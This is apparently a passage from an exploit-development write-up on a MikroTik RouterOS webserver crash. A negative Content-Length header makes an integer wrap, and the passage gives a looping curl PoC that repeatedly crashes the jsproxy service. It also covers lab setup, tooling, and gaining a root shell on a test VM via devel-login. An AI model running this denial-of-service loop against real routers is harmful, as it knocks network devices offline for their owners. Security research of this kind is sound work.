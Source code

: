 At this point we should have a proof of concept that we can use to test if the target webserver crashes. Simply passing a negative one into the `content_length` header should be enough
to wrap the integer and overallocate to crash the server. To test, we can craft this header with CURL in a POST request and spam the webserver with it in a loop :).

**CURL** PoC:
```bash
while ; do curl -X POST -H "Content-Length: -1" -d '{"foo":"bar"}' http://<target>:80/jsproxy && sleep 0.5; done
```

**ASCIInema** PoC demo:

<script src="https://asciinema.org/a/8vwWooxhCZw7jtAmtbuINFtYE.js" id="asciicast-8vwWooxhCZw7jtAmtbuINFtYE" async></script>

As you can see, the webserver crashes and is automatically restarted every three seconds.

## Building the Exploit

For a test target, I just installed RouterOS within VirtualBox and bound the first interface to a host-only adapter. I won't be covering this in particular, in-depth instructions can be found on [Google](https://www.techonia.com/218/install-mikrotik-virtualbox).

Most of the tools I used in this section and recommend others to use for embedded Linux exploit development/research:

- [pwntools](https://github.com/Gallopsled/pwntools)
- [MIPSROP](http://www.devttys0.com/2013/10/mips-rop-ida-plugin/)
- [GDB](https://www.gnu.org/software/gdb/)
- [GDB PEDA](https://github.com/longld/peda)
- [GEF](https://github.com/hugsy/gef)
- [Binutils Collection](https://www.gnu.org/software/binutils/)


### Getting a debugger on the target

I'm going to need a debugger on my target in-order to further understand and analyze the crash before going any further.
This is a fairly simple and straightforward process thanks to MK enabling something called `devel-login`, which will allow us to gain a root shell.

1. Mount both partitions from RouterOS Virtual Disk

```bash
$ mount /dev/sda1 /mnt/disk1
```

```bash
$ mount /dev/sda2 /mnt/disk2
```

2. Create a file called `devel-login` in /dev/disk2/etc/
    
```bash
$ touch /dev/disk2/etc/devel-login
```

3. Copy uClibC compiled gdbserver to `/mnt/disk1/flash/bin`
    